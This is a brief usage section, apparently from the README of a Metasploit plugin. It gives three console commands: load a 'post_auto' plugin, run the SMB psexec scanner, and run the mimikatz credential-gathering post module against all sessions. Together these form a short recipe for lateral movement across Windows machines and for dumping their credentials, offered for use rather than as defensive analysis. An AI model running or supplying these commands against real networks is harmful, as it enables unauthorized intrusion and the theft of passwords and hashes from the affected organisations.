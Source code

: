 How to use
=============

load post_auto

use auxiliary/scanner/smb/psexec_scanner

multi_post -m post/windows/gather/mimikatz -s all
